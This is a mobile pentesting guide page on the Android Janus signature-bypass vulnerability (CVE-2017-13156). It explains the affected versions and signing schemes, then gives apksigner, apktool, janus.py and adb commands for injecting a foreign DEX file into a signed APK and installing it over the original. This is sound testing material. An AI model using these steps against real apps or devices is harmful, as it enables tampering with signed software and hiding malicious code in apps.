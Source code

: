 # Janus Vulnerability (CVE-2017-13156)

## Whats Janus Vulnerability

A serious vulnerability in Android allows attackers to inject a DEX file into an APK file without affecting the signatures.

## Details

1. &#x20;On device running android version 5.X & 6.X, Apk signature was verified using only v1 scheme Janus vulnerability was found in v1 signing scheme and google released a patch on 2017 December 01 to fix Janus on these android versions. so even though apk is signed only with v1 which can bem run on 5.x & 6.x, if 2017 December 01 patch is installed in the device Janus cannot be exploited.
2. After releasing the patch for Janus, Google released v2 signing scheme and prioritized device to use v2 scheme over v1 scheme if v2 was used along with v1 scheme but they did not integrate the patch into the system until android 8.1. This made possible to exploit Janus on android 7.x & 8.0 also, as long as 2017 December patch is not installed.
3. Applications signed with v2 or v3 along with v1 are also vulnerable to Janus if they are made to run on android versions 5.x & 6.x as it verifies only v1 scheme without installing the patch.
4. Finally v1 scheme was removed and V4 scheme has been introduced in Android 11, Applications that are only signed with v1 scheme will not run on Android 11

## How to Test

* [ ] &#x20;We use [apksigner](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#46c8) tool to find the signature schemes used by the application&#x20;

```bash
apksigner verify -verbose h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>apk  has been signed only with v1, no v2 or v3 signature</p></figcaption></figure>

* [ ] Use [apktool](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#37de) to find the min android version on which we can run this application&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Application can be run on API Level 15(Android 4.0.4 Ice Cream Sandwich), so we can choose any device from <strong>5.x, 6.x, 7.x &#x26; 8.0</strong> to exploit it.</p></figcaption></figure>

```bash
apktool -s d h5.apk && cat h5/apktool.yml | grep minSdk
```

* [ ] Get classes.dex from any other apk&#x20;

```bash
apktool -s d WhatsApp.apk && mv WhatsApp/classes.dex
```

* [ ] To Inject this classes.dex file into our h5 application, we use this exploit code from [**VEO**’s repo](https://raw.githubusercontent.com/V-E-O/PoC/master/CVE-2017-13156/janus.py). Copy the code and create new file named **janus.py** and paste into it

```bash
python janus.py classes.dex h5.apk kal-h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* [ ] &#x20;Install adb exploit

```
adb install h5.apk
adb install -r kal-h5.apk
```

## Automation

{% embed url="https://github.com/h0tak88r/j88nx" %}

```
# Basic APK analysis
go run main.go -apk path/to/your.apk

# Analysis with custom POC dex file
go run main.go -apk path/to/your.apk -dex path/to/poc.dex
```

## Resources

{% embed url="https://medium.com/mobis3c/exploiting-apps-vulnerable-to-janus-cve-2017-13156-8d52c983b4e0" %}
